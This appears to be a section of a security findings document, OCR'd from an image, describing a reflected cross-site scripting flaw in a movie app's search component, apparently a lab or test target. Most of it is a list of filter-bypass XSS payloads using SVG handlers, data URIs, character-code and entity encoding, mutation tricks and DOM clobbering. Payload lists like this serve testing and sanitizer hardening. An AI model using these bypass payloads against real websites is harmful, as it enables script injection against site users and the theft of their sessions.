 
## 3. Cross-Site Scripting (XSS)

### 3.1 Reflected XSS in Search (Complex Bypass Required)
**Location**: `src/components/Movies.tsx` - Line 65-85  
**Severity**: High  
**Description**: Search query rendered with incomplete XSS filtering that can be bypassed.

**Basic payloads blocked**:
- `<script>alert(1)</script>` → Filtered
- `javascript:alert(1)` → Filtered  
- `onload=alert(1)` → Filtered

**Complex bypass payloads**:
```javascript
// SVG-based XSS
<svg/onload=confirm(1)>

// Data URI bypass
<iframe src="data:text/html,<scr1pt>alert(document.domain)</scr1pt>">

// Template literal bypass
<img src=x onerror=`${String.fromCharCode(97,108,101,114,116)}(1)`>

// Unicode bypass
<img src=x onerror=\u0061\u006c\u0065\u0072\u0074(1)>

// HTML entity bypass
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;(1)>

// CSS expression bypass (IE)
<div style="x:expression(alert(1))">

// Nested encoding bypass
<img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,49,41))">

// DOM clobbering + XSS
<form id=x><input name=innerHTML><img src=x onerror=x.innerHTML=String.fromCharCode(60,115,99,114,105,112,116,62,97,108,101,114,116,40,49,41,60,47,115,99,114,105,112,116,62)>

// Mutation XSS
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

// Filter evasion with comments
<img src=x onerror=al/**/ert(1)>

// Case variation bypass
<IMG SRC=x ONERROR=ALERT(1)>

// Attribute injection
<input type=image src=x onerror=prompt(1)>
```
